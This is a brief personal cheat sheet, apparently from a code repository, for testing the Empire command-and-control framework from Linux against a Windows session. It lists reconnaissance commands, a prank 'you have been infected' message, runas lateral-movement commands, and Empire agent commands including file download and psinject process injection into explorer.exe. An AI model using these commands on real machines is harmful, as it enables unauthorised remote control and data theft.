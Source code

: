 % Empire

This is to test, play withg empire, a framework to send comand to a remote session (from Linux to Windows)
Usually, it take 3 sec for empire to connect
Before, you should check the ip

# Execute (Windows commands)

### Analyse
*   whoami 
*   query user          # Get connected users
*   tasklist
*   wmic process list   # Windows Management Instrumentation Command-line tool

### Message
*   msg user Hi you have been infected

### Sound
*   pressing <c-g> in the shel lmake a bad cmd and trigger the beep

### Lateral movements
To make a sound, yo umust run as the user that is logged (the frist arg of msg)

*   start
*   runas /user:user cmd
*   runas /user:user "notepad c:\boot.ini"
*   tskill notepad   or pskill notepad


# Empire commands (latteral movements ...)

*   `download` stores -> files in ./downloads/AGENT_NAME
                    -> log in .agent.log
*   `kill` all                     

*   `ps`                          # List processes
*   `ps` powershell               # With filter

*   `spawn` <listener>            # Like a span http1
                                # SPawn a new powershell listener process

*   `psinject` http1 explorer.exe # The format is psinject <listener> <procname/pid> 
                                # Warning do not inject in LSASS
                                # Please choose a process in the same section
                    
# Prepare (Linux)

*   espeak Hi from the deep --stdout > hi.wav

